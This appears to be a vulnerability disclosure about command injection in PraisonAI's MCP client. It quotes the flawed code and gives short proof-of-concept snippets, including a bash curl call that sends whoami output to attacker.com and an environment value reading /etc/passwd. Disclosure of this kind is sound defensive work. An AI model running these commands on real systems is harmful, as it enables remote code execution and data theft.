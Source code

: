 # PraisonAI MCP Command Injection Vulnerability Report

## Summary

A critical Remote Code Execution (RCE) vulnerability exists in PraisonAI's MCP (Model Context Protocol) integration through the `StdioServerParameters.command` and `args` fields. The vulnerability allows arbitrary command execution through insufficient input validation when creating MCP client connections. User-controlled input is directly passed to subprocess execution without any sanitization or validation, enabling attackers to execute arbitrary system commands with the privileges of the PraisonAI process.

---

## Description

The vulnerability stems from the direct use of user-provided input in the `MCP` class constructor and related MCP client implementations. When users specify MCP server commands through various interfaces (Agent tools, direct MCP instantiation, or configuration), the input is processed through `shlex.split()` for parsing but then directly passed to `StdioServerParameters` without validation. This creates multiple attack vectors where malicious commands can be injected and executed.

The core vulnerability exists in the following flow:
1. User input is accepted through MCP class instantiation or Agent tool configuration
2. Input is parsed using `shlex.split()` to separate command and arguments
3. Parsed components are directly passed to `StdioServerParameters(command=cmd, args=arguments)`
4. The MCP client uses these parameters to spawn processes via `anyio.open_process()` or similar mechanisms
5. Arbitrary commands execute with the application's privileges

---

## Affected Code

### Primary Vulnerability Location

**File**: `src/praisonai-agents/praisonaiagents/mcp/mcp.py`
**Lines**: 270-315

The vulnerable code pattern:

```python
# Handle the single string format for stdio client
if isinstance(command_or_string, str) and args is None:
    # Split the string into command and args using shell-like parsing
    if platform.system() == 'Windows':
        parts = shlex.split(command_or_string, posix=False)
        parts = [part.strip('"') for part in parts]
    else:
        parts = shlex.split(command_or_string)
    if not parts:
        raise ValueError("Empty command string")
    
    cmd = parts[0]  # ← User-controlled command
    arguments = parts[1:] if len(parts) > 1 else []  # ← User-controlled args
else:
    cmd = command_or_string  # ← Direct user input
    arguments = args or []   # ← Direct user input

# Vulnerable sink point - direct use without validation
self.server_params = StdioServerParameters(
    command=cmd,        # ← Arbitrary command execution
    args=arguments,     # ← Arbitrary arguments
    **kwargs
)
```

### Secondary Vulnerable Locations

**File**: `src/praisonai-agents/tests/npx_mcp_wrapper_main.py`
**Lines**: 77-82, 177-182

Multiple instances where user input flows directly to `StdioServerParameters`:

```python
# Extract tools function
server_params = StdioServerParameters(
    command=command,  # ← User-controlled
    args=args        # ← User-controlled
)

# Call tool function  
server_params = StdioServerParameters(
    command=command,  # ← User-controlled
    args=args        # ← User-controlled
)
```

---

## Proof of Concept

The vulnerability can be exploited through multiple vectors in PraisonAI. The most direct approach is through the MCP class instantiation where users can specify arbitrary commands.

**Attack Vector 1: Direct MCP instantiation**
```python
from praisonaiagents import Agent, MCP

# Malicious command injection via MCP constructor
malicious_agent = Agent(
    instructions="You are a helpful assistant",
    llm="gpt-4o-mini", 
    tools=MCP("touch /tmp/pwned.txt && echo 'Command injection successful'")
)
```

**Attack Vector 2: Through Agent tool configuration**
```python
from praisonaiagents import Agent, MCP

# Command injection through args parameter
agent = Agent(
    instructions="Assistant with tools",
    llm="gpt-4o-mini",
    tools=MCP(
        command="bash",
        args=["-c", "curl http://attacker.com/steal?data=$(whoami)"]
    )
)
```

**Attack Vector 3: Environment variable injection**
```python
from praisonaiagents import Agent, MCP

# Injection through environment variables
agent = Agent(
    instructions="Assistant",
    llm="gpt-4o-mini", 
    tools=MCP(
        "python",
        args=["-c", "import os; os.system('malicious_command')"],
        env={"MALICIOUS_VAR": "$(cat /etc/passwd)"}
    )
)
```

---

## Impact

This vulnerability enables complete system compromise through:

1. **Arbitrary Command Execution**: Attackers can execute any system command with application privileges
2. **Data Exfiltration**: Sensitive files and environment variables can be accessed and transmitted
3. **Privilege Escalation**: If PraisonAI runs with elevated privileges, attackers inherit those privileges
4. **Persistence**: Attackers can install backdoors, modify system configurations, or establish reverse shells
5. **Lateral Movement**: In containerized or networked environments, attackers can pivot to other systems

The vulnerability is particularly dangerous because:
- It can be triggered through seemingly legitimate AI assistant interactions
- No direct code access is required - only the ability to configure MCP tools
- The attack surface includes multiple entry points across the codebase
- Exploitation can be disguised as normal AI tool usage

---

## Occurrences

### Primary Vulnerability Locations
- [MCP class constructor - main sink point](https://github.com/MervinPraison/PraisonAI/blob/main/src/praisonai-agents/praisonaiagents/mcp/mcp.py#L311-L315)
- [Command parsing logic - user input processing](https://github.com/MervinPraison/PraisonAI/blob/main/src/praisonai-agents/praisonaiagents/mcp/mcp.py#L270-L288)

### Secondary Vulnerability Locations
- [NPX wrapper - extract_tools function](https://github.com/MervinPraison/PraisonAI/blob/main/src/praisonai-agents/tests/npx_mcp_wrapper_main.py#L79-L82)
- [NPX wrapper - call_tool function](https://github.com/MervinPraison/PraisonAI/blob/main/src/praisonai-agents/tests/npx_mcp_wrapper_main.py#L179-L182)
- [MCP wrapper class](https://github.com/MervinPraison/PraisonAI/blob/main/src/praisonai-agents/tests/mcp_wrapper.py#L61-L65)

### Vulnerable Example Files (Attack Vectors)
- [Airbnb MCP client example](https://github.com/MervinPraison/PraisonAI/blob/main/src/praisonai-agents/tests/mcp_airbnb_client_direct.py#L13-L21)
- [Custom Python client example](https://github.com/MervinPraison/PraisonAI/blob/main/examples/python/mcp/custom-python-client.py#L7)
- [Filesystem MCP example](https://github.com/MervinPraison/PraisonAI/blob/main/examples/python/mcp/filesystem-mcp.py#L15)
- [Memory MCP example](https://github.com/MervinPraison/PraisonAI/blob/main/examples/python/mcp/memory-mcp.py#L12)
- [Sentry MCP example](https://github.com/MervinPraison/PraisonAI/blob/main/examples/python/mcp/sentry-mcp.py#L13)
- [Perplexity MCP example](https://github.com/MervinPraison/PraisonAI/blob/main/examples/python/mcp/perplexity-mcp.py#L9)
- [WhatsApp MCP example](https://github.com/MervinPraison/PraisonAI/blob/main/examples/python/mcp/whatapp-mcp.py#L6)
- [Sequential thinking MCP example](https://github.com/MervinPraison/PraisonAI/blob/main/examples/python/mcp/sequential-thinking-mcp.py#L9)
- [Multiple test files with vulnerable patterns](https://github.com/MervinPraison/PraisonAI/blob/main/src/praisonai-agents/tests/mcp-npx-airbnb-stockprice.py#L22)
